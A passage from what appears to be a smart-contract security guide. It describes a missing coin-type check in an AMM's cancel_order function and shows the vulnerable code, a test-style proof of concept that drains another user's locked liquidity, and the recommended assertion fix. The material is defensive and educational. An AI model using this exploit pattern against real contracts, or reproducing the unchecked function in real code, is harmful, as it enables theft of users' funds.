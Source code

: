 ```rust
public fun cancel_order<BaseCoinType>(
        user: &signer,
        order_id: u64
    ) acquires OrderStore, CoinStore {
        // [...]
        deposit_funds<BaseCoinType>(order_store, address_of(user), order.base);
        // [...]
}
```

#### Impact

An attacker could potentially drain liquidity from the AMM by placing a limit swap order and cancelling the order — passing the incorrect coin type.

The following proof of concept demonstrates an attacker’s ability to steal other users’ locked liquidity:

```rust
##[test(admin=@donkeyswap, user=@0x2222)]
fun WHEN_exploit_lack_of_type_checking(admin: &signer, user: &signer) acquires CoinCapability {
    let (my_usdc, order_id) = setup_with_limit_swap(admin, user, 1000000000000000);

    // let's say the admin deposits some ZEL

    mint<ZEL>(my_usdc, address_of(admin));
    let _admin_order_id = market::limit_swap<ZEL, USDC>(admin, my_usdc, 1000000000000000);

    // now, let's try stealing from the admin

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);

    market::cancel_order<ZEL>(user, order_id); // ZEL is not the right coin type!

    assert!(coin::balance<USDC>(address_of(user)) == 0, ERR_UNEXPECTED_BALANCE);
    assert!(coin::balance<ZEL>(address_of(user)) == my_usdc, ERR_UNEXPECTED_BALANCE); // received ZEL?
}
```

#### Recommendations

Add the following type-checking assertion to the `cancel_order` function:

```rust
assert!(order.base_type == type_info::type_of<BaseCoinType>(), ERR_ORDER_WRONG_COIN_TYPE);
```

## 2\. Unbounded Execution

Unbounded execution, also known as gas griefing/loop bombing, is a denial-of-service attack that exists when users can add iterations to looping code shared by multiple users (i.e., that can be executed by many users) without limit.
